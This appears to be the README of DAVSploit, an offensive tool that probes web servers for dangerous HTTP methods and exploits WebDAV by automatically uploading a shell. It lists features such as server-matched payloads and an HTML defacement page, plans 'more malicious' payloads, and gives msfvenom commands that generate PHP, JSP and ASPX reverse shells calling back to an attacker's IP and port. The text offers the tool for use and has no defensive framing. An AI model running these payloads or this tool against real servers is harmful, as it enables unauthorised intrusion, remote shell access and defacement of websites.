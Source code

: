 
╔╦╗╔═╗╦  ╦╔═╗┌─┐┬  ┌─┐┬┌┬┐
 ║║╠═╣╚╗╔╝╚═╗├─┘│  │ ││ │ 
═╩╝╩ ╩ ╚╝ ╚═╝┴  ┴─┘└─┘┴ ┴ V1.2

DAVSploit tool is for automating checking for PUT,MOVE,COPY and DELETE HTTP methods
aswell as automating webdav exploitation.

Features
================
- Automatically checks PUT,MOVE,COPY,DELETE,PATCH,CONNECT and TRACE for webserver
- Automatically checks for web dav directories if they exists and gets HTTP allow methods
- if PUT exits will try to automatically upload a shell
- Built in Server detection, payload that matches server version will be sent
- Three diffrent payload types PHP,JSP,ASPX and HTML
- Colored UI
- HTML payload includes deface web page
- [*New Feature] Vulnerbility scanning for web services


Davsploit V2
==============
- Add more payloads
- Add more webservers to detection list
- Fix false positive with PUT method
- Perform content discovery and create wordlist to scan more directories
- Create more malicious HTML payload


Run
===============
Need payloads generated in directory before runing script

Create a PHP reverse shell
- msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
Create a JSP reverse shell
- msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<Port> -f raw > shell.jsp
Create a ASPX reverse shell
- msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<Port> -f aspx > shell.aspx

python3 DAVSploit.py
